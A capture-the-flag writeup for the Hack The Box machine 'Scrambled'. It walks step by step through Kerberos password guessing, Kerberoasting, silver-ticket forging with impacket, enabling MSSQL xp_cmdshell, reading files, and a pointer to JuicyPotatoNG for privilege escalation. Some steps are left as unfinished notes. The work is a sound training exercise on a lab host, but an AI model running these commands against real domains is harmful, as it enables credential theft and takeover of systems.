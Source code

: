```yaml
---
layout: post
title: HTB Machine - Scrambled
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/6a88f8059e46c1d5652c3c15ac2cb9f3.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/6a88f8059e46c1d5652c3c15ac2cb9f3.png
share-img: https://www.hackthebox.com/storage/avatars/6a88f8059e46c1d5652c3c15ac2cb9f3.png
tags: [ HTB, Hack the Box,Network,Vulnerability Assessment,Active Directory,Source Code Analysis,Reversing,IIS,.NET,Kerberos,WinRM,MSSQL,SMB,DNSPY,Impacket,Python,SQL,C#,Configuration Analysis,Binary Analysis,Password Cracking,Kerberoasting,Kerberos Abuse,Decompilation,Clear Text Credentials,Deserialization,Information Disclosure,Default Credentials,Misconfiguration,Sensitive Data Exposure]
---
```


Analyzing the nmap we suspect that this could be a domain controller. There is DC name: `commonName=DC1.scrm.local`.Initial enumeration of the smb is not very fruitful. Also little information from the ldap.
```zsh
crackmapexec smb 10.10.11.168
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)

whatweb http://10.10.11.168
http://10.10.11.168 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.168], JQuery, Microsoft-IIS[10.0], Script, Title[Scramble Corp Intranet]

smbmap -H 10.10.11.168 -L
[!] Authentication error on 10.10.11.168

smbclient -L 10.10.11.168 -N
session setup failed: NT_STATUS_NOT_SUPPORTED

ldapsearch -x -H ldap://10.10.11.168 -b 'DC=scrm,DC=local'
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

```
when browsing the webpage there is a tab for IT services, a section underneath of it called Contacting IT Support. Inside of it a screenshot shows a user. Since is all we have we can check if the user and password are the same.
```zsh
echo 'ksimpson' > user

/opt/kerbrute/kerbrute bruteuser -d scrm.local --dc 10.10.11.168 user ksimpson

2023/05/24 07:33:33 >  [+] VALID LOGIN:	ksimpson@scrm.local:ksimpson
2023/05/24 07:33:33 >  Done! Tested 1 logins (1 successes) in 0.133 seconds
```
we are going to try a kerberoast attack. 
```zsh

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local

#error and we need to fix? 1:10:09

locate GetUserSPNs.py
/home/rickybana/.local/bin/GetUserSPNs.py
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py
#how we fix the error? link? 
sudo mousepad /usr/share/doc/python3-impacket/examples/GetUserSPNs.py

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 17:32:02.351452  2023-05-24 06:38:46.449044             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 17:32:02.351452  2023-05-24 06:38:46.449044             
```

doing a silver ticket atttack

https://codebeautify.org/ntlm-hash-generator

NTML hash generator: B999A16500B87D17EC7F2E2A68778F05

convert to small
```zsh
echo 'B999A16500B87D17EC7F2E2A68778F05' | tr '[A-Z]' '[a-z]'
b999a16500b87d17ec7f2e2a68778f05
```
We are going to need the SID, we can get it with getPac. We could have used ksimpson as a target but we put Admin to get the UserID right away cause it will be needed in the future.
```zsh
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser Administrator
```
UserId:                          500 
Domain SID: S-1-5-21-2743207045-1827831105-2542523200

```zsh
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 Administrator -domain scrm.local

export KRB5CCNAME=Administrator.ccache

impacket-mssqlclient dc1.scrm.local -k

SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE

xp_cmdshell "whoami"

# we can extract the flags at this point by playing with database queries. 

SELECT * FROM OPENROWSET(BULK N'C:/Users/miscsvc/Desktop/user.txt', SINGLE_CLOB) AS Contents

SELECT * FROM OPENROWSET(BULK N'C:/Users/Administrator/Desktop/root.txt', SINGLE_CLOB) AS Contents

# if we want to continue as Pentest and not just as a CTF. We will need to gain a shell from the victim machine.
#  to escalate privileges we can use a juicypotato exploit from antoniococo

https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1

# this will grant us priv access and gain both flags.

# 